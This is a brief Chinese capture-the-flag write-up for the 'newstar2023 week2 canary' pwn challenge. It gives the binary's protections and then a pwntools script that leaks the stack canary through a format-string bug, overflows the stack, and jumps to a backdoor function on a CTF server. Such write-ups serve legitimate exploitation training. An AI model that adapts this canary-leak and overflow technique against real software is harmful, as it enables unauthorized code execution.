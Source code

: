 ```yaml
---
title: newstar2023 week2 - canary
date: 2023/10/1 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`canary`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序发现后门函数，且没有pie，首先利用格式化字符串漏洞打印出canary的值，
然后栈溢出补上canary后跳转到后门函数即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26476)

# payload 1
sh.sendline(b'%11$p') # get canary

sh.recvuntil(b'gift:\n') # skip
canary = int(sh.recvline()[:18], 16)

# payload 2
backdoor = 0x00401262
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(backdoor))

sh.interactive()
```

Done.
